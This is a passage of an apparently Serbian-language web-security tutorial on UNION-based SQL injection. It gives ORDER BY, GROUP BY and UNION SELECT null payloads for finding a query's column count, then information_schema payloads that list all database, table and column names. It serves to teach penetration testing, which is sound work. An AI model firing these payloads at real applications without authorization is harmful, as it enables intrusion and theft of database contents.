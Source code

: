 Ako možete videti rezultate upita, ovo je najbolji način za iskorišćavanje.\
Prvo, moramo saznati **broj** **kolona** koje **početni zahtev** vraća. To je zato što **oba upita moraju vratiti isti broj kolona**.\
Za ovo se obično koriste dve metode:

#### Order/Group by

Da biste odredili broj kolona u upitu, postepeno prilagođavajte broj koji se koristi u klauzulama **ORDER BY** ili **GROUP BY** dok ne dobijete lažan odgovor. Bez obzira na različite funkcionalnosti **GROUP BY** i **ORDER BY** u SQL-u, oba se mogu koristiti na isti način za određivanje broja kolona upita.

```sql
1' ORDER BY 1--+    #True
1' ORDER BY 2--+    #True
1' ORDER BY 3--+    #True
1' ORDER BY 4--+    #False - Query is only using 3 columns
#-1' UNION SELECT 1,2,3--+    True
```

```sql
1' GROUP BY 1--+    #True
1' GROUP BY 2--+    #True
1' GROUP BY 3--+    #True
1' GROUP BY 4--+    #False - Query is only using 3 columns
#-1' UNION SELECT 1,2,3--+    True
```

#### UNION SELECT

Izaberite sve više i više null vrednosti dok upit ne bude ispravan:

```sql
1' UNION SELECT null-- - Not working
1' UNION SELECT null,null-- - Not working
1' UNION SELECT null,null,null-- - Worked
```

_Treba da koristite `null` vrednosti jer u nekim slučajevima tip kolona sa obe strane upita mora biti isti, a null je validan u svakom slučaju._

### Izdvajanje imena baza podataka, imena tabela i imena kolona

U sledećim primerima ćemo izvući ime svih baza podataka, ime tabele iz baze podataka i imena kolona iz tabele:

```sql
#Database names
-1' UniOn Select 1,2,gRoUp_cOncaT(0x7c,schema_name,0x7c) fRoM information_schema.schemata

#Tables of a database
-1' UniOn Select 1,2,3,gRoUp_cOncaT(0x7c,table_name,0x7C) fRoM information_schema.tables wHeRe table_schema=[database]

#Column names
-1' UniOn Select 1,2,3,gRoUp_cOncaT(0x7c,column_name,0x7C) fRoM information_schema.columns wHeRe table_name=[table name]
```
